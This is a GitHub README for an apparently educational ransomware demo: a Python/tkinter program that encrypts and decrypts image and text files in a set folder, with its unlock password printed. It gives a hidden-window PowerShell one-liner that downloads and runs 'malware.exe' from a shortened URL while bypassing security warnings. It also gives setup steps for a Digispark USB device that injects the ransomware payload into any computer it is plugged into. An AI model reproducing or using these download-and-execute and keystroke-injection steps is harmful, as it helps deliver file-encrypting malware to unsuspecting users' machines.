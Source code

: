 **EDUCATIONAL USE ONLY, USE AT YOUR OWN RISK!** \
**IT IS ALWAYS RECOMMENDED TO TEST THESE KINDS OF PROGRAMS INSIDE A VIRTUAL MACHINE WITH NO SENSITIVE INFORMATION INCASE OF SOMETHING GOES WRONG**

**Version 1.0**

![bio](https://github.com/therealhalonen/PhishSticks/assets/112076418/8e7f742d-bdc4-41d0-9aaa-8a6493df29f7)

## What it is 

Simple application made with python and tkinter to demonstrate how an application can encrypt and decrypt your files with extensions {'.txt', '.jpg', '.jpeg', '.png'} in the directory called TestDirz338

If combined with the PowerShell script below, the application gets downloaded and executed in path `{USER}\TestDirz338\` 

Right now the application decrypts all {'.txt', '.jpg', '.jpeg', '.png'} files when user gives up the right password (lihapulla).

![270753154-8fb9e882-b990-48cd-add6-309dd09af3be](https://github.com/therealhalonen/PhishSticks/assets/112076418/bee3e9ec-499b-4a0e-af8b-fc5e2c04b4ea)

## How to use

Download and run the script or .exe file inside a safe folder with no important files (incase something goes wrong) to launch the program and enjoy, for example:

```
$ mkdir TestDirz338
$ cd TestDirz338
$ ./encrypt.py
```
OR

Make a folder called TestDirz338 in the path C:/Users/{USER}/

![2023-12-05_18-59](https://github.com/therealhalonen/PhishSticks/assets/112076418/6682c7df-debb-40ce-bba0-aea449f228f4)


Bypass security warnings and download & execute the file instantly in TestDirz338 folder by typing the following code into Run (Win+R) on **Windows**:
```
powershell -w hidden -c "(New-Object System.Net.WebClient).DownloadFile('https://tinyurl.com/28sb6pvcpow', \"$env:UserProfile\TestDirz338\malware.exe\");Start-Process \"$env:UserProfile\TestDirz338\malware.exe\" -WorkingDir \"$env:UserProfile\TestDirz338\""
```
If you don't have a folder called TestDirz338 and you execute the code above, nothing happens. Also trying to run the executable anywhere else raises an error:

![2023-12-05_18-56](https://github.com/therealhalonen/PhishSticks/assets/112076418/85b533aa-ec2b-40af-9d5d-66121cf92b4f)

How it works: https://www.youtube.com/watch?v=glqK_-qdDkw

Executable version works the same without needing different python libraries.

---

### To set up Digispark payload:
- [Set up Digispark](https://github.com/therealhalonen/PhishSticks/blob/master/notes/ollikainen/notes.md#digispark)
- Add correct Digikeyboard library to match your systems keyboard layout for example [DigiKeyboardFi.h](https://github.com/therealhalonen/DigiKeyboardFi/blob/master/DigiKeyboardFi.h) for Finnish keyboards (made by [therealhalonen](https://github.com/therealhalonen))
- Path of the file for Windows: C:/Users/username/Documents/Arduino/libraries/DigisparkKeyboard/DigiKeyboardFi.h
- Path of the file for Linux: ~/.arduino15/packages/digistump/hardware/avr/1.6.7/libraries/DigisparkKeyboard/DigiKeyboardFi.h
- compile and upload [digispark_ransomware.ino](https://github.com/therealhalonen/PhishSticks/blob/master/digispark/digispark_ransomware/digispark_ransomware.ino) to your digispark
- Plug the Digispark in a computers USB slot and enjoy
  
![2023-10-31_12-24](https://github.com/therealhalonen/PhishSticks/assets/112076418/490686db-b5c4-4c00-9f7f-bc3006bd742b)

Watch the video to see it in action: https://www.youtube.com/watch?v=Bi2QOMSHeKI
